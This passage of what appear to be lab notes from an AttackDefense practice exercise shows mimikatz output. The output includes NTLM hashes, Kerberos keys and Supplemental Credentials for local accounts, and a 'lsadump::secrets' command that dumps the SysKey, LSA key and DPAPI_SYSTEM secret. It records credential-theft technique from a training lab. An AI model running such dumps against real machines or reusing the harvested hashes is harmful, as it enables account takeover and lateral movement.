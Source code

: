 ```bash
      aes256_hmac       (4096) : 3ff137e53cac32e3e3857dc89b725fd62ae4eee729c1c5c077e54e5882d8bd55
      aes128_hmac       (4096) : 15ac5054635c97d02c174ee3aa672227
      des_cbc_md5       (4096) : ce9b2cabd55df4ce

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WDAGUtilityAccount
    Credentials
      des_cbc_md5       : ce9b2cabd55df4ce


RID  : 000003f0 (1008)
User : student
  Hash NTLM: bd4ca1fbe028f3c5066467a7f6a73b0b

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : b8e5edf45f3a42335f1f4906a24a08fe

* Primary:Kerberos-Newer-Keys *
    Default Salt : EC2AMAZ-R69684Tstudent
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : bab064fdaf62216a1577f1d5cd88e162f6962b4a421d199adf4c66b61ec6ac7c
      aes128_hmac       (4096) : 42bc1d17d1236d3afc09efbeba547d2c
      des_cbc_md5       (4096) : 1a975b02a7bf15d5

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : EC2AMAZ-R69684Tstudent
    Credentials
      des_cbc_md5       : 1a975b02a7bf15d5



```



**dump lsa secrets with mimikatz**

```bash
mimikatz # lsadump::secrets
Domain : ATTACKDEFENSE
SysKey : 377af0de68bdc918d22c57a263d38326

Local name : ATTACKDEFENSE ( S-1-5-21-3688751335-3073641799-161370460 )
Domain name : WORKGROUP

Policy subsystem is : 1.18
LSA Key(s) : 1, default {47980b9c-8bd1-89c9-bfb5-0c4fca25e625}
  [00] {47980b9c-8bd1-89c9-bfb5-0c4fca25e625} 247e7be223db5e50291fc0fcec276ff8236c32a8a6183c5a0d0b6b044590ce06

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 34 5e 65 80 f9 04 a4 8c a5 0e 6c 74 6c d2 c3 b8 8e 7a ca c3 a3 3b 0e 6e 0a 64 f3 12 fc c7 92 67 a3 2f d5 d1 e4 41 33 ac 
    full: 345e6580f904a48ca50e6c746cd2c3b88e7acac3a33b0e6e0a64f312fcc79267a32fd5d1e44133ac
    m/u : 345e6580f904a48ca50e6c746cd2c3b88e7acac3 / a33b0e6e0a64f312fcc79267a32fd5d1e44133ac
old/hex : 01 00 00 00 c1 3a 28 e3 94 7b 64 5d 94 29 b4 c9 1c 9b 0c b1 b6 5a aa 2c 34 4d ee ed 86 74 0f 12 25 37 8c 38 69 b3 b4 53 b6 37 86 44 
```